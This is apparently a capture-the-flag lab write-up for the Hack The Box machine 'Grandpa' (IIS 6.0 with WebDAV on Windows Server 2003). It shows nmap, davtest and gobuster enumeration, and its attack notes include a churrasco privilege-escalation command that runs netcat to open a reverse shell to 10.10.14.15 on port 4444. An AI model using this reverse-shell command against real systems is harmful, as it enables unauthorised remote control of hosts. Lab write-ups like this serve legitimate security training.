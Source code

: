 # Summary



## about target

tip:  10.129.160.37

hostname: Grandpa

Difficulty: Easy



## about attack

+ same to granny, but not able to put(webdav); use exploit to get shell(bof)
+ privesc also  the same to granny.



**attack note**



```bash
grandpa  10.129.160.37

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-ntlm-info:
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
| http-webdav-scan:
|   WebDAV type: Unknown
|   Server Date: Sun, 25 Sep 2022 01:43:58 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
| http-methods:
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH


windows version: https://www.gaijin.at/en/infos/windows-version-numbers
Product_Version: 5.2.3790 
Windows Server 2003, Service Pack 2  

# http enum

## davtest， no upload
davtest -url http://$tip

## gobuster
gobuster dir -u http://$tip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -o gobuster.txt



.\churrasco.exe -d "c:\temp\nc.exe -e cmd.exe 10.10.14.15 4444"
```





# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```



# Exploitation





![image-20220925122415939](./images/image-20220925122415939.png)



# Privesc



## Post Enumeration





## System





![image-20220925122346440](./images/image-20220925122346440.png)



## proof

```bash


```



![image-20220925122505424](./images/image-20220925122505424.png)
